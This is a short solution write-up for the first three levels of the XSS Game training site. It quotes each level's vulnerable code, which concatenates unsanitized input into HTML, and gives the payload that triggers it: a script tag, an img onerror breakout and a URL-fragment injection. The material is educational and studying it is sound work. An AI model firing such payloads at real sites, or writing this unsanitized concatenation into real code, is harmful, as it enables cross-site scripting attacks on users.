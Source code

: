 ## XSS Game Solutions

### Level 1

- Vulnerable code is as follows. The website directly take the input from a user and render it as part of the website with no sanitization. As a result, the browser will think the user input is part of the code and execute it.

```
message = "Sorry, no results were found for <b>" + query + "</b>."
```

- How to trigger the vulnerability? input the following string in the search bar and click on search.

```
<script>alert();</script>
```


### Level 2

- Vulnerable code: again the user's input does not have sanitization and is stored in `post[i].message`

```
html += "<blockquote>" + posts[i].message + "</blockquote";
```

- How to trigger the vulnerability: input the following string in the textfield and click on "Share status!". The browser will execute this new code and try to find `image.gif`. It will fail and trigger `alert()`

```
</blockquote><img src="image.gif" onerror="alert()"><blockquote>
```

### Level 3

- Vulnerable code: this web app will directly take the section that follows `#` of the URL and pass it into  `chooseTab()`. `chooseTab()` will directly embed it into the image tag.

```
chooseTab(unescape(self.location.hash.substr(1)) || "1");
...

//in chooseTab
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

- How to trigger the vulnerability: navigate to this URL. Here, the first `'` will end the image src string. Since the browser cannot find `/static/level3/cloud`, it will run the function following `onerror` and trigger `alert()`

```
https://xss-game.appspot.com/level3/frame#$('<img src=x onerror=alert(1)>')
```
